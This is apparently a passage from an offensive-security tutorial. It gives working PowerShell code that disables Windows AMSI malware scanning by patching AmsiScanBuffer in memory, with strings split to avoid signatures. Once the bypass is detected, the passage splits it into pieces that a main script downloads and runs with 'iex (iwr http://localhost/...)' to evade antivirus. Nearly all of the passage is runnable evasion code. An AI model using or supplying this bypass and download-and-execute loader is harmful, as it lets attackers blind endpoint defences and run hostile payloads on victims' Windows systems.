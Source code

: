 ```powershell
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

If we try execute it, we'll get this output :
![Amsi Bypass](/commons/Rastamouse_amsi.png)

The Bypass itself is detected!

Let's divide it into 3 files

```powershell
# 1.txt
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
```

```powershell
# 2.txt
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

```powershell
# main.ps1
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

iex ( iwr http://localhost/1.txt -UseBasicParsing );
iex ( iwr http://localhost/2.txt -UseBasicParsing );
```
